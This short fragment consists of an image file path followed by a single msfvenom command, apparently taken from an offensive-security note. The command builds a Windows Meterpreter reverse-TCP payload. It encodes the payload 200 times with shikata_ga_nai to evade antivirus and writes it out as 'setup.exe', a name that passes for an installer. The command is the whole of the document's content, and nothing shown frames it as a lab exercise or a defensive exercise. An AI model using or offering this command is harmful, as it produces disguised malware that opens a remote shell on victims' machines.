 msfvenom -p windows/meterpreter/reverse_tcp LHOST=local_ip LPORT=4444 -e x86/shikata_ga_nai -i 200 -f exe > setup.exe

